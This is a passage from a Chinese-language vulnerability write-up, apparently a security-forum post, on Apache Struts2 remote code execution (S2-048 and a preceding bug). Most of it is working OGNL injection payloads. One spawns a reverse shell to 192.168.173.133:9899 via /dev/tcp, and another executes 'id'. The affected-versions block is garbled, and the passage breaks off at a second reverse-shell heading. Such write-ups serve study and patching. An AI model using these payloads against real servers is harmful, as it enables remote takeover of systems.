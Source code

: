 ##### 可以看到POC中算式执行成功。

#### poc-2,反弹shell，同样需要进行00截断。

```php
&quot;%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i &gt;&amp; /dev/tcp/192.168.173.133/9899 0&gt;&amp;1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b&quot;
```

![image-20210711171118416](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-79b9ef469ef54c4380adef1e62db02defce33254.png)

### 4.15 S2-048远程代码执行漏洞

#### 漏洞原理

##### Apache Struts2 2.3.x 系列启用了struts2-struts1-plugin 插件并且存在 struts2-showcase 目录,其漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

#### 影响版本

```php
Apache Struts 2.3.xᔮڜӾސአԧstruts2-struts1-pluginൊկጱᇇ๜
```

#### 启动漏洞

![image-20210711174232049](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-41da2112174cdd422c45c2746845ce96de480f6f.png)

![image-20210711174420283](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cda6069639b0a7c5f7d192dc8d71ada83adab7a7.png)

#### poc-1

```php
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20210711195031238](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-032f081ccae8cd668d07bb93f9e9db787e4a1df4.png)

![image-20210711195105694](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4595434d01026399e7ee55a3014c7f3dc64efff2.png)

#### poc-2 反弹shell
